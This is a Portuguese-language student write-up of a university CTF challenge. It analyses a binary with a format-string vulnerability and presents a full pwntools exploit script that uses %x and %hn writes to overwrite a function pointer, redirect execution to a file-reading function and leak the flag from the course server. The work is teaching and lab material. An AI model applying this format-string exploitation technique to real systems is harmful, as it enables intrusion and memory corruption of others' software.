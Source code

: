 

# CTF Semana 6 


## Tarefas

### Analise do sistema

À semelhança do CTF anterior, começamos por executar o commando `checksec` de forma a identificar as proteções existentes e deste modo, ataques possíveis.


![exploit file](resources/CTF6/checksec.png)

### Análise do código source

De seguida, analisamos o código source de forma a percebermos melhor o seu funcionamento, respondendo às seguintes questões:


**Existe algum ficheiro que é aberto e lido pelo programa?** - Sim, a função `readtxt` é responsável pela leitura de um ficheiro passado como argumento. Esta função é chamada a partir do *function pointer*  `fun`.


**Existe alguma forma de controlar o ficheiro que é aberto?** - Sim, à semelhança do CTF anterior, se conseguirmos passar como argumento dessa função o buffer (que tem os conteúdos fornecidos pelo utilizador), conseguimos abrir qualquer ficheiro.

**Existe alguma format string? Se sim, em que é vulnerável e o que podes fazer?** - Sim, os conteúdos do buffer são escritos no terminal com a função `printf`. Com isto, torna-se possível passar várias _format strings_ `%x` ao buffer, de forma a alcançar um endereço específico escolhido pelo atacante.


## Execução do Ataque

De forma a tornar o ataque possível, a nossa ideia foi tentar executar a função `readtxt` e passar no parâmetro `name` a string `./flag`, com o objetivo de ler o ficheiro `flag.txt`. Percebemos que teriamos que alterar, à semelhança do CTF anterior, o valor da variável `fun`, para o da função `readtxt`. Sendo assim, adicionamos ao buffer o valor `./flag` (utilizado pela função `readtxt`) e o endereço da variável `fun` fornecida pelo programa no servidor. Assim, com a utilização de sucessivos `%x`, conseguiamos alcançar este valor, como estudado no **LOGBOOK6**, e alterar o seu conteúdo, usando `%n`.

### Forma rápida

Após realizarmos o ataque da forma mais simples, como realizado no **LOGBOOK6**, reparamos que, este demorava demasiado tempo a executar. Isto deve-se ao facto de o valor a ser escrito ser muito grande, e ter que se dar *print* de um número de caracteres igual ao pretendido. De forma a resolver este problema, optámos pela realização do ataque de uma forma ligeiramente diferente. Ao invés de utilizarmos `%n` e escrever os 4 bytes do endereço `readtxt` de uma só vez, utilizamos dois `%hn` de forma a escrever 2 bytes de cada vez.

Script Malicioso:

```python
#!/usr/bin/python3
from pwn import *

mode = input("Select run mode [r/l]: ") # correr localmente ou remotamente
if (mode== "r"):
    r = remote('ctf-fsi.fe.up.pt',4005)
    #r = remote('127.0.0.1', 4003)
else:
    r = process('./program')

size = 99
payload = bytearray(0x01 for i in range(size))


payload[0:6]= b"./flag" # inserir a flag no ínicio do buffer

funAddress1  = b"\x32\xe1\xbc\xff"
funAddress2 =  b"\x30\xe1\xbc\xff"

payload[8:12]  = funAddress1
payload[16:20] = funAddress2

#s = "%.8x" + "%.134518677x" + "%n" método mais lento, com bastantes prints (não utilizado)
#36769

s = "%.8x" + "%.2024x" + "%hn" + "%.36769x" +  "%hn" # método mais rápido

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
payload[20:20+len(fmt)] = fmt


context(arch='i386')

res = r.recvuntil(b"flag:\n")
print(res)
address = int(res.decode('utf-8').split("hint: ")[1][:8], 16) # dinamicamente obter o endereço de memória do fun
print(address)

payload[8:12]  = (address + 2).to_bytes(4, byteorder='little')
payload[16:20] = (address).to_bytes(4, byteorder='little')


r.sendline(payload)

buf = r.recvall().decode(errors="backslashreplace")
print(buf)
```

Execução do script:

![exploit execution](resources/CTF6/exploit_execution.png)

Podemos verificar que ao correr o script obtemos a `flag{L34k1ng_Fl4g_0ff_Th3_St4ck_44789C2D}`, demonstrando o sucesso do nosso ataque.
